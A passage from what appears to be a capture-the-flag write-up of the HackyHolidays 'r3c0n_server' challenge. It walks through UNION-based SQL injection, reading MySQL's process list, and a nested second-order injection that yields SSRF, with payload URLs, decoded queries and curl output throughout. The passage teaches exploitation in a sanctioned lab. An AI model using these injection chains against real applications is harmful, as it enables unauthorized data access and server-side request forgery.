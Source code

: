 we have 2 tables with no interesting content, no auth hashes in the db, so this means they are probably generated after fetching data from query

i had doubt that there's 2 different queries executed in the backend instead of using some join for both tables in a single query
to clear my doubt i wanted to check what was the current query that is executed while we are injecting our payload,
luckily enough, mysql keep running processes in a table, read more about it here https://www.devart.com/dbforge/mysql/studio/show-running-queries-in-processlist.html
so let's do `SELECT INFO FROM INFORMATION_SCHEMA.PROCESSLIST WHERE db ='recon' limit 0,1`, again i used sqlmap 
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-jdh34k%27union%20select%201,2,INFO%20from%20information_schema.processlist%20where%20db=%27recon%27%20limit%200,1--%20-

select * from album where hash = '-jdh34k'union select 1,2,INFO from information_schema.processlist where db='recon' limit 0,1-- -
```
so the query is `select * from album where hash='[OUR_INPUT]'`
now, i can only assume that result of this query either id or name is passed to a second query that selects from photo table

### sqli inside an sqli to SSRF

based on assumption from `Key 3`, we potentially have a second order sql injection, we already know query selecting * from album which has 3 columns
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27union%20select%201,2,3--%20-                            => FALSE
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27union%20select%20*%20from%20album%20limit%200,1--%20-   => TRUE
```
this means first query should return valid row that goes with second query somewhere
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-jdh34k%27union%20select%201,2,3%20limit%200,1--%20-
```
this returns photos from album with id 1, so second query is taking 1st column result inside union to the second query, let's do another sqli inside 1st column
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-jdh34k%27union%20select%20(select%20%22%27%20union%20select%20%27a%27,%27b%27,%27c%27--%20-%22),2,3%20as%20id%20limit%200,1--%20-
```
page returned with invalid image, 
```
$ printf eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2EiLCJhdXRoIjoiZWU1YjY2Y2E2YmMyNGMyNTI3NjZlZjZlNzhjZWQ2MGYifQ==|base64 -d
{"image":"r3c0n_server_4fdk59\/uploads\/c","auth":"ee5b66ca6bc24c252766ef6e78ced60f"}
```
the generated json has changed ;), and has valid signature
```
$ curl https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/pictuta=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2MiLCJhdXRoIjoiNTBlNGI3NTg2ZTRlMGU4MzhiOWYzNzNjYTdmYzZjMzMifQ== 
Expected HTTP status 200, Received: 404
```
the response makes sense since that url doesnt exist, we didnt get page body though!
we finally got the SSRF.
